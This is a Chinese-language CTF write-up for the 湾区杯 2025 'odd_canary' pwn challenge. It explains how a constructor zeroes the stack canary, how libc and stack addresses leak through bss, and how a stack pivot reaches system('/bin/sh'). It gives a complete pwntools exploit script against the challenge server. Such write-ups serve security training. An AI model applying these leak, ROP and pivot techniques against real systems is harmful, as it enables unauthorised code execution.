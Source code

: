 ```yaml
---
title: 湾区杯 2025 初赛 - odd_canary
date: 2025/09/11 01:27:00
updated: 2025/09/11 01:27:00
tags:
    - noob
excerpt: 利用构造器重置canary为0，泄露libc与栈地址后栈迁移执行`system("/bin/sh")`。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.35-0ubuntu3.10|

## 解题思路

注意有一个`before_main`是“构造器”，会在`main`之前调用，将canary设为0，这也就意味着
canary已知。

看到程序主菜单有good, vuln, exit三个功能，已知在bss上，符号`name`和`bss`紧邻，
那我们进入`good_news`后，只要输入0x20个字符填满`name`，就可以在下一次循环中读取到
`bss`上存放的`puts`地址拿到libc。为了拿到栈地址，我们从`exit_a`函数中，
控制栈指针放到`bss`上，这样再进入一次`good_news`就可以泄露栈地址。

最后进入`vuln`打栈溢出。由于只溢出到返回地址的地方，因此结合栈地址可以打栈迁移，
供我们输入的空间刚好可以执行`system("/bin/sh")`。由于调用`system`，需要注意栈平衡。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './odd_canary'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote("pwn-3c371156cb.challenge.xctf.org.cn", 9999, ssl=True)
    libc = ELF('/libraries/2.35-0ubuntu3.10_amd64/libc.so.6')

    def news(buf: bytes) -> bytes:
        t.sendlineafter(b'good/vuln', b'good')
        t.recvuntil(b'good news,')
        name = t.recvuntil(b' ', True)
        t.send(buf)
        return name

    def vuln(buf: bytes):
        t.sendlineafter(b'good/vuln', b'vuln')
        t.sendafter(b'payload', buf)
        assert buf.startswith(b'exec')

    def not_exit(yes: bool):
        t.sendlineafter(b'good/vuln', b'exit')
        t.sendlineafter(b'Are you', b'y' if yes else b'n')

    news(b'a' * 0x20)
    data = news(b'a' * 0x20)
    libc_base = u64(data[0x20:0x26] + b'\0\0') - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    not_exit(False)
    data = news(b' ' * 0x20)
    stack = u64(data[0x20:0x26] + b'\0\0') - 0x27 + 8
    success(f'About to pivot stack to {stack:#x}')

    gadgets = ROP(libc)
    vuln(flat(
        b'exec'.ljust(8), 0,
        gadgets.rdi.address, next(libc.search(b'/bin/sh')), libc.symbols['system'],
        0, stack, 0x4014b6, # leave; ret
    ))

    t.clean()
    t.interactive()
    t.close()
```

{% note default fa-flag %}
![flag](/assets/gbacc2025/odd_canary_flag.png)
{% endnote %}
